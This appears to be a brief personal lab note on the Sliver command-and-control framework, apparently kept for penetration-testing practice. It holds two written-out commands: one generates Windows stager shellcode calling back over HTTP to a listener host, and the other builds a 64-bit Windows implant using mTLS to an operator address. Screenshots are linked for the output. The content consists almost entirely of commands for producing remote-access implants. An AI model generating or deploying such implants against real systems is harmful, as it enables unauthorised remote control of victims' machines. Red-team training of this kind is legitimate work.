 # Sliver Payloads

##### Generate Shellcode
```
generate stager --lhost 192.168.56.11 --lport 8082 --protocol http --save /home/kali/Desktop/sliver/win-stager-shellcode
```
![](../../../../zzAttachments/Pasted%20image%2020250903161811.png)

##### Generate Payloads
```
generate --os windows --arch 64bit --mtls 192.168.56.230 --save /home/kali/Desktop/sliver/
```
![](../../zzAttachments/Pasted%20image%2020250903162447.png)
